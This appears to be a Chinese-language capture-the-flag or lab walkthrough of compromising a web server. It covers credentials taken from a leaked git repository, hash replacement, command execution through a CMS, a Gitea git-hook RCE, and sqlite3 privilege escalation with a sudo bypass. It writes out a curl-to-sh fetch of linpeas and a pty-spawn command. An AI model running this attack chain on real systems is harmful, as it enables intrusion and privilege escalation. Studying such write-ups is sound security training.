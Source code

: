- 先把主機加入/etc/hosts
  
![](https://hackmd.io/_uploads/ryGl8WTza.png)

- 用nmap掃有開啟甚麼port 有22跟80
  
![](https://hackmd.io/_uploads/B1ufUZazT.png)

- 再用dirsearch看看有沒有甚麼可用資訊 看起來是有git可以用 還有一個backend/auth的網頁
  
![](https://hackmd.io/_uploads/rknVUbTf6.png)

![](https://hackmd.io/_uploads/HkRqo-afa.png)


- 用gihacker把源碼下載下來
  
![](https://hackmd.io/_uploads/rJu1DZ6z6.png)

- 看看裡面有什麼可以用的 首先發現adminer.php 連進去後可以進到一個db的登入頁面
  
![](https://hackmd.io/_uploads/rJ4ot-aGp.png)

- 於是來去翻看看有沒有關於db的資料，在config裡的database.php找到一個用戶的登入密碼

  
![](https://hackmd.io/_uploads/rJLYFbTGT.png)

- 拿到剛剛的登入頁面進行登入，成功登入資料庫
  
![](https://hackmd.io/_uploads/SknCKW6MT.png)

- 在select backend_user的地方發現一個叫Frank的user
  
![](https://hackmd.io/_uploads/BkEyhZazp.png)

- 用hash-identifier查看是甚麼類型的加密問不到
  
![](https://hackmd.io/_uploads/B1-LpW6fa.png)

- 用chatgpt問後發現是BCrypt加密
  
![](https://hackmd.io/_uploads/S1bdpZ6Mp.png)

- 此時就可以去透過BCrypt去生成自己的密碼並去把它替換掉
  
![](https://hackmd.io/_uploads/rkfRpWpGa.png)

![](https://hackmd.io/_uploads/B15eAZaza.png)

- 拿去一開始發現的backend/auth網站登入看看 可以成功登入
  
![](https://hackmd.io/_uploads/H1ESCbafp.png)

- 進去後有CMS系統，CMS（Content Management System）意思是內容管理系統，掌管網站後台的編輯、新增、儲存和組織功能，因此可以去嘗試在裏頭寫入一些惡意code
  
![](https://hackmd.io/_uploads/HyPF1BRf6.png)

- 先去查看他的phpinfo裡的disable_function有禁用哪些
  
![](https://hackmd.io/_uploads/r1ac6r0M6.png)

![](https://hackmd.io/_uploads/BkO66BAMa.png)

- 發現沒有禁用system()，嘗試後發現可以使用 能看到id身分 (為什麼1可以，其他數字不行)
  
![](https://hackmd.io/_uploads/HJGxArCGT.png)


- 去嘗試寫個reverse shell進去 &記得要改成%26不然會被當參數傳過去 bin/bash -c 意思是告訴bash shell執行-c 後面的命令列，允許在不啟動交互式Shell會話的情況下執行單個命令
  
![](https://hackmd.io/_uploads/B1c-GICMp.png)

- 成功監聽到
  
![](https://hackmd.io/_uploads/ByjYMI0z6.png)

- 有一個網址沒掃到 用nmap -A 去掃(全面系統檢測、啟用腳本檢測、掃描等) 發現他有開8585 port
  
![](https://hackmd.io/_uploads/ByhDBUCGa.png)

- 這個也不錯 這樣可以掃1到9999port
  
![](https://hackmd.io/_uploads/SyVHUIRfT.png)

- 進去後發現gitea 所以可以去找看看有沒有關於gitea的設定
  
![](https://hackmd.io/_uploads/rJRqIIRMa.png)

- 用Linpeas找看看有什麼可以使用的地方
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![](https://hackmd.io/_uploads/r1ErUwCG6.png)

- 有找到一個像是gitea設定黨的東西
  
![](https://hackmd.io/_uploads/B1x_zuw0GT.png)

- 可是沒有權限 所以要去找看看有沒有別的可以用
  
![](https://hackmd.io/_uploads/Hk0L9D0M6.png)

- 還有一個bak檔 這有點像是可以用來復原網站的文件
  
![](https://hackmd.io/_uploads/Bk_55v0Mp.png)

- 有發現一組db的帳號密碼 把它拿去並登入 就有發現frank gitea的帳號密碼 拿去修改並登入gitea
  
![](https://hackmd.io/_uploads/rkBvivCMa.png)

- 成功登入gitea
  
![](https://hackmd.io/_uploads/HyRFTwCfp.png)

- 查看這個的版本號是1.12.5 去查看看有沒有相關漏洞 找到一個RCE的[漏洞](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce)
  
![](https://hackmd.io/_uploads/rJvvI9Czp.png)

- 在githook加上reverse shell
  
![](https://hackmd.io/_uploads/ryktO5Czp.png)

- 開啟一個監聽
  
![](https://hackmd.io/_uploads/BkQJF9RzT.png)

- 然後在readme加個空格然後update
  
![](https://hackmd.io/_uploads/BJCbY5AGp.png)

- 就成功以frank的身分進入了
  
![](https://hackmd.io/_uploads/H1mLKqAGa.png)

- sudo -l 發現可以透過sqlite3提權
  
![](https://hackmd.io/_uploads/Sy2dYqRMp.png)

- 在GTFOBins找sqlite3提權方法
  
![](https://hackmd.io/_uploads/rkj1jq0Ga.png)

- 貼上後沒有說沒有tty 所以幫他加一個 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![](https://hackmd.io/_uploads/Hk6WoqAMp.png)

- 加上再試試後發現要密碼
  
![](https://hackmd.io/_uploads/rk_Sj9Rzp.png)

- 去查一下後發現是sudo 的問題 會被擋掉 所以改成sudo -u#-1來繞過他 就可以成功提權了
  
![](https://hackmd.io/_uploads/ry7XT9Aza.png)

